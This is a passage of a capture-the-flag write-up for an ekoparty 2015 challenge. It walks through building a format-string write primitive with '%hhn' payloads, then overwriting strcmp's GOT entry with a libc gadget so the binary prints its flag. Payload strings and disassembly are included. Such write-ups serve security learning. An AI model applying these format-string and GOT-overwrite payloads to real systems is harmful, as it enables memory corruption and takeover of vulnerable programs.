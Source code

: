 So $61 will now contain 0xfffff1a1. Then we write to $124 again via $61:

```
%176c%61$hhn (write 0xb0 to 0xfffff1a1). 
```

Etc until we have 0x804b020 at $124. Then we write using $124:

```
%65c%124$hhn
```

And we'll have written the first byte to 0x804b020. We repeat this process for the other bytes...

With our new and shiny write() function we set out to break this challenge. We first tried truncating the string "Welcome to ekoparty 2015!" in memory, so we could have an input that would fit the 12 char limit. Writing to that location didn't work, presumably cos that string was in non-writeable memory. Remember, we needed to enter the code path here:

```
mov dword [esp], 0x13370aa7 ; Welcome to ekoparty 2015!
call dword 0x133704f0       ; strcmp? (value in got is 0xb7f60b60)
test eax, eax
jnz 0x13370932
mov dword [esp], 0x13370ac4 ; OMG! nice work, your flag is:
call dword 0x13370510       ; puts?
mov eax, [0x13372108]       ; -> 0x13373008, contains '47fa'
mov [esp+0x4], eax
mov dword [esp], 0x133720c1 ; qs'HG, 7173271f..
call dword 0x133706dd       ; see below
mov [ebp-0x24], eax
mov eax, [0x13372108]
mov [esp+0x4], eax
mov dword [esp], 0x133720cc ; 0x1d0a0c56
```

We dumped and reversed the function at `0x133720cc`, which apparently decodes the flag. However, we where only able to get the pieces `EKO{` and `b4by`. The dump process wasn't perfect, so we continued. 

So how could we get strcmp() to return 0? By overwriting the value in the got with a location that does `xor eax, eax; ret`. We dumped bytes around the strcmp pointer (ASLR was off so libc was at a static position) and indeed, we identified a rop-like gadget that did just that! Careful overwriting of the got pointer of strcmp in two steps was necessary, but again we lucked out: strcmp was at 0xb7f60b60, the `xor eax, eax` gadget was at 0xb7f61fc4. At 0xb7f61c60, there was this perfect gadget:

```
movzx ecx, byte [eax+0x5]
movzx eax, byte [edx+0x5]
sub eax, ecx
ret
```

In two steps, we overwrote strcmp (we can't have the got pointer pointing to illegal instructions, cos that would make the binary crash before we can overwrite the next value!) with the xor eax gadget... and we got something like this:

```
OMG! nice work, your flag is: EKO{
```
